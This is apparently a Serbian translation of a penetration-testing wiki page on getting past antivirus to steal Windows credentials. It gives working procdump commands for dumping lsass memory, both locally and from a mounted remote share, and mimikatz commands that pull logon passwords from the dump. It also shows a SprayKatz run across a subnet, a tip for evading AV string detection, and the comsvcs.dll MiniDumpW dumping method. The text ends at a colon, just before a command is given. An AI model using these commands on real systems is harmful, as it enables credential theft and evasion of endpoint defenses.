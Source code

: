 ## Zaobilaženje AV

### Procdump + Mimikatz

Kako je **Procdump iz** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**legitimni Microsoft alat**, nije otkriven od strane Defendera.\
Možete koristiti ovaj alat da **dampirate lsass proces**, **preuzmete dump** i **izvučete** **lokalno** kredencijale iz dumpa.

{% code title="Dampiranje lsass" %}
```
```
{% endcode %}

```bash
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

{% code title="Izdvajanje podataka za prijavljivanje iz dump-a" %}
```c
//Load the dump
mimikatz # sekurlsa::minidump lsass.dmp
//Extract credentials
mimikatz # sekurlsa::logonPasswords
```
{% endcode %}

Ovaj proces se automatski izvršava pomoću [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24`

**Napomena**: Neki **AV** programi mogu **detektovati** kao **zlonamerno** korišćenje **procdump.exe za dumpovanje lsass.exe**, to je zato što detektuju stringove **"procdump.exe" i "lsass.exe"**. Zato je **diskretnije** proslediti **PID** lsass.exe procesa kao **argument** procdump-u **umesto** imena lsass.exe.

### Dumpovanje lsass pomoću **comsvcs.dll**

DLL fajl pod nazivom **comsvcs.dll** koji se nalazi u `C:\Windows\System32` je odgovoran za **dumpovanje memorije procesa** u slučaju pada. Ovaj DLL sadrži funkciju pod nazivom **`MiniDumpW`**, koja se poziva pomoću `rundll32.exe`.\
Prva dva argumenta su nebitna, ali treći argument se sastoji od tri komponente. Prva komponenta predstavlja ID procesa koji će biti dumpovan, druga komponenta predstavlja lokaciju fajla za dump, a treća komponenta je strogo reč **full**. Ne postoje alternativne opcije.\
Nakon parsiranja ovih tri komponente, DLL kreira fajl za dumpovanje i prenosi memoriju određenog procesa u taj fajl.\
Korišćenje **comsvcs.dll** je moguće za dumpovanje lsass procesa, čime se eliminiše potreba za otpremanjem i izvršavanjem procdump-a. Ovaj metod je detaljno opisan na [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords).

Za izvršavanje se koristi sledeća komanda:
